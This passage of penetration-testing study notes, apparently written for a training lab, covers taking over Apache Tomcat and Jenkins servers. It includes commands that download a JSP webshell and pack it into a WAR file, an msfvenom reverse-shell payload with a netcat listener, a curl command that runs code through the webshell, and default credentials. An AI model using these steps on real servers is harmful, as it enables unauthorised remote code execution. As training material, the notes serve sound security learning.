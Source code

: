     * if we have valid manager creds, we can navigate to ```/manager/html``` and upload a malicious WAR file

    * we can upload a common JSP webshell archived into a WAR file:

      ```sh
      wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp

      zip -r backup.war cmd.jsp

      # alternatively, we can use msfvenom
      msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

      # or we can also use multi/http/tomcat_mgr_upload module in metasploit
      ```

    * in ```/manager/html```, after uploading the malicious WAR file, we can see it in the applications list - click on it and specify 'cmd.jsp' in the URL:

      ```sh
      curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id

      # if we are using the msfvenom payload, we need to setup a listener
      # before activating the shell from GUI
      nc -nvlp 4443

      # for cleaning up, we can undeploy this app from the manager GUI
      ```

    * we can also use lightweight versions of [cmd.jsp](https://github.com/SecurityRiskAdvisors/cmd.jsp)
  
  * leveraging known vulnerabilities - check for common vulnerabilities such as [Ghostcat](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938) (associated with Apache Jserv)

* Jenkins:

  * footprinting:

    * Jenkins runs on Tomcat port 8080 by default, and uses port 5000 to attach slave servers

    * we can fingerprint it using the Jenkins login page; check for default creds like 'admin:admin'
  
  * script console:

    * the script console at /script allows user to run Apache Groovy scripts - we can write webshells or reverse shells in Groovy:

